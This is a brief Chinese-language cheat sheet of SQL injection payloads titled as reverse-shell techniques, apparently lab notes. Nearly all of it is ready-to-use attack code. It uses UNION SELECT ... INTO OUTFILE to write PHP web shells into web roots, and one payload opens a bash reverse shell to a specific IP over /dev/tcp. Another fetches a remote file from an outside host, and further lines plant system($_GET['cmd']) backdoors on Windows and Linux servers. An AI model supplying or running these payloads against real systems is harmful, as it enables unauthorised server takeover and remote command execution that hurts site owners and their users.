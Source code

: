 # 反弹shell（终端，注入下都可）（linux）

‍

1. 直接反弹

```bash
union select ""<?php exec(\""/bin/bash -c \'bash -i >& /dev/tcp/159.203.242.172/1999 0>&1\'\"");"" INTO OUTFILE '/var/www/ecustomers/samshell4.php'
```

1. 上传，打开

```bash
1. 从本地上传
' union select ""<?php file_put_contents(\""root\"", file_get_contents(\""http://attack.samsclass.info/root\"")); ?>"" INTO OUTFILE '/var/www/ecustomers/samget2.php' #
2. 打开
' union select ""<?php system($_REQUEST['cmd']); ?>"" INTO OUTFILE '/var/www/ecustomers/samshell.php' #
```

1. win以及linux的生成后门php

```bash
Windows : SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
Linux : SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

‍
